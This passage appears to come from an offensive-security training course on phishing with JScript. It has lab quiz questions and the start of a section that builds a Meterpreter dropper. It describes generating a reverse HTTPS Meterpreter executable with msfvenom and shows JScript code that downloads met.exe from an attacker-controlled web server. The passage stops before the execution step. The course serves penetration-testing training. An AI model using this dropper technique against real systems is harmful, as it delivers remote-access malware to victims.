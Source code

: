 Answer

3. What technology is leveraged by Jscript when executed outside a web browser to interact with Windows Script Host?

```
A) ActiveX
B) COM
C) WMI
D) PowerShell
```

Answer

4. Connect to the dev01 machine and find the flag1.js code under the **c:\tools\exercises** folder. To obtain the flag, identify and correct the error in the provided JScript code, then run the corrected script.

Answer

### 5.1.2. Jscript Meterpreter Dropper

Next, we'll expand our usage of Jscript to create a dropper that downloads a Meterpreter executable from our Kali Linux web server and executes it. This will require several components.

First, we'll use _msfvenom_ to generate a 64-bit Meterpreter reverse HTTPS executable named **met.exe** and save it to our Kali web root. We'll also set up a Metasploit multi/handler to catch the session.

With our executable generated and our handler waiting, let's begin building our dropper code. We'll start with a simple HTTP GET request from Jscript.

To do that, we can use the _MSXML2.XMLHTTP_ object, which is based on the Microsoft XML Core Services,[1](https://portal.offsec.com/courses/pen-300-9502/learning/phishing-with-jscript-188661/phishing-with-jscript-188714#fn-local_id_66-1) and its associated HTTP protocol parser. This object provides client-side protocol support to communicate with HTTP servers. Although it is not documented, it is present in all modern versions of Windows.

As shown in Listing 2, we can use the _CreateObject_ method of the Windows Script Host to instantiate the _MSXML2.XMLHTTP_ object, then use the _Open_ and _Send_ methods to perform an HTTP GET request. The _Open_ method takes three arguments. The first is the HTTP method, in our case GET. The second argument is the URL, and the third argument indicates that the request should be synchronous.

To summarize our code, we'll use the (_url_) variable to set the URL of the Meterpreter executable. Then we'll create a Windows Script _MSXML2.XMLHTTP_ object and call the _Open_ method on that object to specify a GET request along with the URL. Finally, we'll send the GET request to download the file.

```
var url = "http://192.168.251.151/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();
```

> Listing 2 - HTTP GET request from Jscript
